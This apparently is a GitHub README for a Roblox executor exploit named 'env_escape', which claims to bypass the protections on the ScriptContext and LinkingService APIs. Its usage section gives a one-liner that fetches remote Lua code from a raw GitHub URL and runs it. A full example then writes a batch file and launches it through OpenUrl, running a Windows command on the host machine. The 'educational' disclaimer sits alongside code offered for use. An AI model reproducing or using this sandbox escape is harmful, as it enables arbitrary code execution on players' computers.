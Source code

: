 # Education and Vulnerability Fix Purposes Only!

This repository is created for **educational purposes** and to help developers fix vulnerabilities in their code. The tools and scripts provided here are intended for use in **secure environments** only.

Currently, this is made to bypass **ENV** that are protected from vulnerabilities like `game:GetService("ScriptContext"):SaveScriptProfilingData` and `game:GetService("LinkingService"):OpenUrl`.

# Usage

To use this script, simply execute the following code in your Roblox executor:

```Lua
local bypassed_env = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()
```

Full example:
```Lua
local bypassed_env, why, why_full = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()

if why ~= "Failed" and why ~= "UnSupported" then
    local L, S = bypassed_env.game:GetService("LinkingService"), bypassed_env.game:GetService("ScriptContext")
    L:OpenUrl(S:SaveScriptProfilingData([[START C:\WINDOWS\system32\notepad.exe]], "lol.bat"))
elseif why_full ~= nil then
    print(why_full)
else
    print(why)
end
```

## Disclaimer

By using this code, you are fully responsible for your actions. The author does not take any responsibility for any misuse or consequences resulting from the use of this code.

This project is **not** intended for malicious activities. It is solely designed to **educate** and **assist in fixing vulnerabilities** in a safe, responsible, and ethical manner.

Please ensure that you are in full compliance with all applicable laws and guidelines in your jurisdiction before using any code from this repository.

# License

This project is licensed under the **MIT License** with the following additional restriction:

## Terms:

- **Attribution**: You must give appropriate credit to the original author(s), provide a link to the license, and indicate if changes were made. You may do this in any reasonable manner, but not in any way that suggests the author(s) endorse you or your use.
- **Non-Commercial**: You may not use the material for commercial purposes. **Please do not sell the code or use it to create products or services that are sold.**
- **ShareAlike**: If you modify or build upon the work, you must distribute your contributions under the same license.

For more details, see the full [MIT License](https://opensource.org/licenses/MIT).
